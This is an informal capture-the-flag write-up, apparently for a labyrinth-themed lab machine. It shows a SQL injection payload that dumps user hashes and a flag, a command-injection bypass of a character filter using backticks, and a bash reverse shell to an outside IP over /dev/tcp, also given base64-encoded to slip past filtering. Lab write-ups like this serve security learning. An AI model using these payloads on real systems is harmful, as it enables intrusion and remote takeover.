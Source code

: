 first we try what we know and get

```
4 Daedalus b8e4c23686a3a12476ad7779e35f5eb6
```

Sql injection is an art that require patience

We try deadalus + common payloads

And this works

`Daedalus' or 1=1#`

```
1 Eurycliedes 42354020b68c7ed28dcdeabd5a2baf8e //greeklover
2 Menekrates 0b3bebe266a81fbfaa79db1604c4e67f //greeksalad
3 Philostratos b83f966a6f5a9cff9c6e1c52b0aa635b //nickthegreek
4 Daedalus b8e4c23686a3a12476ad7779e35f5eb6 //g2e55kh4ck5r
5 M!n0taur 1765db9457f496a39859209ee81fbda4 //aminotauro
```

Minotaur is the only worthy stuff here

flag #2
fla6{the_labyrinh_was_not_that_deep}

The guy also got a `secret-suff` page with an echo panel

ugh...regexes `/[#!@%^&*()$_=\[\]\';,{}:>?~\\\\]/`

The panel just echoes whatever goes in...it uses a search argument

Fooling around with it it doesnt echo some charachters: `"` (double quote)

some are sanitized : `'` (single quote), `#` (hashtag)...and many more

```
You really think this is gonna be possible i fixed this @Deadalus -\_- !!!?
```

Actually one special char allows us to escape that regex : `` ` `` (that..thing)

Nevermind `|` (pipe vertical bar works too)...

Now I feel like injecting a shell there

```
`id`
uid=1(daemon) gid=1(daemon) groups=1(daemon)
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

kudos!...time to get inside (revshells.com)

`` `bash -i >& /dev/tcp/10.8.226.203/2311 0>&1` ``

That didnt work...there must be a sort of filter

base64 encoding the payload it is

`YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjIyNi4yMDMvMjMxMSAwPiYx`

